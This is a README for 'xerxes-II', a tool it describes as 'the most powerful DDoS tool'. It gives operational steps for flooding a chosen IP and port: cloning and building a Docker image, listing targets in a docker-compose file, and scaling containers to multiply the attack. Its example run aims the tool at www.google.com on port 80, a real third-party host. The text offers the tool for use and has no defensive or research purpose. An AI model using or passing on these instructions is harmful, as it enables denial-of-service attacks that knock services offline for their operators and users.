 # xerxes-ii
---
XERXES-ii is the most powerful  DDoS tool 

## Usage
### DDOS using Docker
*NOTE: Docker and DockerCompose must be installed on the host*
To unleash hell on a particular service 
- Clone the repository`$ git clone https://github.com/ahab94/xerxes-II.git`
- Change Directory to the xerxes-II `$ cd xerxes-II`
- Build a docker image image`$ sudo docker build . -t xerxes-ii:rc1`
- In docker-compose.yml define the IP and Port you want to do DDOS on for example.
```BASH
version: '2'
services:
  xerxes-ii-some-service-1:
    image: xerxes-ii:rc3
    environment:
      - IP=some-service-1-ip-or-hostname
      - PORT=some-service-1-port

  xerxes-ii-some-service-2:
    image: xerxes-ii:rc3
    environment:
      - IP=some-service-2-ip-or-hostname
      - PORT=some-service-2-port

  xerxes-ii-some-service-3:
    image: xerxes-ii:rc3
    environment:
      - IP=some-service-3-ip-or-hostname
      - PORT=some-service-3-port
```
- Spawn N number of containers for DDOS `$ sudo docker-compose up --scale xerxes-ii-some-service-1=<number-of-nodes-for-DDOS>`

### Spawning container for dev env
- Build a docker image image`$ sudo docker build . -t xerxes-ii:rc1`
- Initiate xerxes-II container `$ sudo docker run -e IP=www.google.com -e PORT=80 -it xerxes-ii:rc3`

### Spawning process for dev env
- Compile and build xerxes-II `$ gcc -o xerxes-II xerxes-II.c`
- Spawn the xerxes-II process `$ bash entrypoint-to-hell.sh`
